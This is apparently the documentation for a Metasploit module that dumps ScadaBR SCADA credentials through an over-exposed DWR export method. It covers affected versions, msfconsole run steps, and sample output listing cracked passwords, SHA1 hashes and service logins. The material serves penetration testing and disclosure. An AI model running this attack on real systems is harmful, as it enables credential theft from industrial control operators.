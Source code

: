 ## Description

  This module retrieves credentials from ScadaBR, including service credentials and unsalted SHA1 password hashes for all users, by invoking the `EmportDwr.createExportData` DWR method of Mango M2M which is exposed to all authenticated users regardless of privilege level.


## Vulnerable Application

  ScadaBR is a SCADA (Supervisory Control and Data Acquisition) system with applications in Process Control and Automation, being developed and distributed using the open source model.

  This module has been tested successfully with ScadaBR versions 1.0 CE and 0.9 on Windows and Ubuntu systems.

  Installers:

  * [Windows Installers](https://sourceforge.net/projects/scadabr/files/Software/Installer%20Win32/)
  * [Linux Installers](https://sourceforge.net/projects/scadabr/files/Software/Linux/)
  * [Tomcat WAR files](https://sourceforge.net/projects/scadabr/files/Software/WAR/)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/admin/http/scadabr_credential_dump`
  3. Do: `set rhost [IP]`
  4. Do: `set username [USERNAME]`
  5. Do: `set password [PASSWORD]`
  6. Do: `run`
  7. You should get credentials


## Sample Output

  ```
  [+] 172.16.191.166:8080 Authenticated successfully as 'admin'
  [+] 172.16.191.166:8080 Export successful (4436 bytes)
  [+] Found 5 users
  [*] Found weak credentials (admin:admin)
  [*] Found weak credentials (user:password)
  [*] Found weak credentials (zxcv:zxcv)

  ScadaBR User Credentials
  ========================

   Username  Password  Hash (SHA1)                               Admin  E-mail
   --------  --------  -----------                               -----  ------
   admin     admin     d033e22ae348aeb5660fc2140aec35850c4da997  true   admin@yourMangoDomain.com
   operator            ef0cade28a5696433326749bb57c39104ca33550  false  operator@localhost
   test                86f7e437faa5a7fce15d1ddcb9eaeaea377667b8  false  test@localhost
   user      password  5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8  true   user@localhost
   zxcv      zxcv      9878e362285eb314cfdbaa8ee8c300c285856810  false  zxcv@localhost


  ScadaBR Service Credentials
  ===========================

   Service     Host       Port  Username       Password
   -------     ----       ----  --------       --------
   HTTP proxy  127.0.0.1  8080  proxytestuser  proxytestpass
   SMTP        127.0.0.1  25    smtptestuser   smtptestpass

  [+] Config saved in: /root/.msf4/loot/20170527210941_default_172.16.191.166_scadabr.config_861842.txt
  [*] Auxiliary module execution completed
  ```

